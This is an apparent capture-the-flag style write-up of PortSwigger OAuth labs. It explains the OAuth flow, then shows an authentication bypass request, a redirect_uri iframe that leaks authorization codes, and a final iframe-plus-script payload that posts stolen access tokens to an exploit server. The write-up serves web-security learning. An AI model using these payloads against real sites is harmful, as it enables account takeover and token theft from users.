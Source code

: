 ```yaml
---
title: PortSwigger | OAuth Labs 
date: '2024-06-10'
tags: ['PortSwigger', 'PortSwigger Labs', 'Web Security']
draft: false
summary: 
---
```


## OAuth
Instead of manually entering PII data, the user can click on sign in with google and the website will request your PII from google on your behalf and use to sign you up.

Entites in OAuth :
- Client Application
- Resource Owner
- OAuth Service provider

There are different types of OAuth flows or grant types.
- Authorization code (`response_type=code`)
- implicit grant (`response_type=token`)

1. The client application requests access to a subset of the user's data, specifying which grant type they want to use and what kind of access they want.
2. The user is prompted to log in to the OAuth service and explicitly give their consent for the requested access.
3. The client application receives a unique access token that proves they have permission from the user to access the requested data. Exactly how this happens varies significantly depending on the grant type.
4. The client application uses this access token to make API calls fetching the relevant data from the resource server.

Following parameters are involved in an OAuth request :
- `client_secret` : A secret shared with the client when it registers itself with OAuth service
- `scope` : defines the scope of the data requested i.e., contact info, email address , msisdn
- `authorization code`: If user clicks on allow this app on google page, google gives this code to the application
- `access token` : The app then gives the authorization token to google and it gives the access_token
- The access token is then finally used in the API call to get the requested scope info
- `state`: unguessable value passed in the request
- `grant_type`: Type of OAuth flow being used
- `redirect_uri`: The uri which user browser will redirect to when sending authorization code to the client application

![[Pasted image 20240721130055.png]]

> OAuth can be used for Authentication as well, by using the same access token(give by OAuth service) on the client application


Check the OAuth provider being used the by the website, most of these providers have publicly available documentations.

---- 

# Labs

####  Lab: Authentication bypass via OAuth implicit flow

Simple authentication bypass in the below request we changed the username and email to `carlos` and the OAuth flow which lead to account takeover.

```
POST /authenticate HTTP/2
Host: 0a7800ed0329f210820b1f29000100ec.web-security-academy.net
Cookie: session=i62PrPxWR2pMrRjU5iOMH3gfdt4uxH9R
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7800ed0329f210820b1f29000100ec.web-security-academy.net/oauth-callback
Content-Type: application/json
Content-Length: 103
Origin: https://0a7800ed0329f210820b1f29000100ec.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

{"email":"wiener@hotdog.com","username":"wiener","token":"3xGux18fKGtaTDhpfUWIQghPbfjXwJHKywGlpcduSnT"}
```


##### Leaking authorization codes and access tokens

```
In this lab we observed that redirect_url parameter in OAuth could be used to submit any arbitary value without any issue. 


https://oauth-0ad000e0042feecab57ec0dc02fd0009.oauth-server.net/auth?client_id=zhbq6777jywbiwa3krxnk&redirect_uri=https://exploit-0a770084041bee20b566c1d601190087.exploit-server.net/exploit&response_type=code&scope=openid%20profile%20email


So we added the url of our exploit server to the link and sent this iframe to victim

<iframe src="https://oauth-0ad000e0042feecab57ec0dc02fd0009.oauth-server.net/auth?client_id=zhbq6777jywbiwa3krxnk&redirect_uri=https://exploit-0a770084041bee20b566c1d601190087.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>

Victim clicked on this iframe which lead to victim sharing their authorization token with us. We used this token to login to their account
```


#### Stealing OAuth access tokens via a proxy page
The goal here is to leak authorization token to an attacker controlled page or server.

First we identified a path traversal vulnerability in `redirect_uri` paramter
```http
https://oauth-0a3f00be03dddb7e804d790602a0002c.oauth-server.net/auth?client_id=r530xxhu0zxix98omzwqg&redirect_uri=https://0ac400e30362dbb380697baf00420095.web-security-academy.net/oauth-callback/../&response_type=token&nonce=1073277704&scope=openid%20profile%20email
```

We leverage this path traversal with a post message we found in the code. This postmessage allowed messages to be posted to any origin.

Final payload :

```javascript
<iframe src="https://oauth-0a3f00be03dddb7e804d790602a0002c.oauth-server.net/auth?client_id=r530xxhu0zxix98omzwqg&redirect_uri=https://0ac400e30362dbb380697baf00420095.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1295109921&scope=openid%20profile%20email"></iframe>

<script>
	window.addEventListener('message',function(e){
		fetch("/"+encodeURIComponent(e.data.data))
	}, false)
</script>
```

This exploit is dilevered to victim which gives us the token.